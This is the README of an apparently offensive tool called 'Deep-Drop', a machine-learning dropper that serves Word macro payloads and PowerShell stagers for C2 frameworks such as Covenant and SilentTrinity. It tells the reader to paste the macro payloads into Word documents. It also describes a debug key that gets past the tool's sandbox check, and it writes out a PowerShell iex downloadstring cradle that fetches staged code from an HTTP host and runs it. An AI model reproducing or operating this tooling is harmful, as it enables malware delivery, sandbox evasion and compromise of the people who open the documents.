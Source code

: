 # Deep-Drop
Machine learning enabled dropper

### Quick Start
```
pip install -r requirements.txt
python deepdrop.py
```

Copy paste the payload (core\macros) into a word doc and run.

### Structure
```
deepdrop.py -> handles loading models, patching payloads, and starting app
core
  bin\ -> contains dlls (covenant, silenttrinity, etc. Alternatively grab a test dll from [here](https://github.com/monoxgas/sRDI/blob/master/TestDLL/dllmain.cpp)
  data\ -> process list data for (re)training
  models\ -> trained models used for classification
  payloads\ -> template and patched payloads for initial access
  stagers\ -> stager templates 
  utils\ -> contains SRDi
  config.py -> set info for various items, paths, dlls, etc.
  ddmodels.py -> deep drop model classes
  deepdrop.py -> dropper parsing, staging, and decision logic
  logging.py -> prettify logging output
  routing.py -> holds the main app routes
```

### Quick start
```
λ pip3 install requirements
λ python3 deepdrop.py

 ____              ____
|    \ ___ ___ ___|    \ ___ ___ ___
|  |  | -_| -_| . |  |  |  _| . | . |
|____/|___|___|  _|____/|_| |___|  _|
              |_|               |_|


[-] All models loaded
[-] Routes loaded
[-] Payloads patched for localhost

[DBG] ece9d57d-ef30-47ed-accb-46ea3c436257

 * Serving Flask app "deepdrop" (lazy loading)
  ...
```

### Testing
Passing `-d\--debug` to deepdrop will give back a key that can be used to bypass the sandbox check for testing payloads. `powershell.exe -c "iex (new-object net.webclient).downloadstring('http://localhost/ece9d57d-ef30-47ed-accb-46ea3c436257')"`

### Staging 
Currently only powershell staging is implemented.

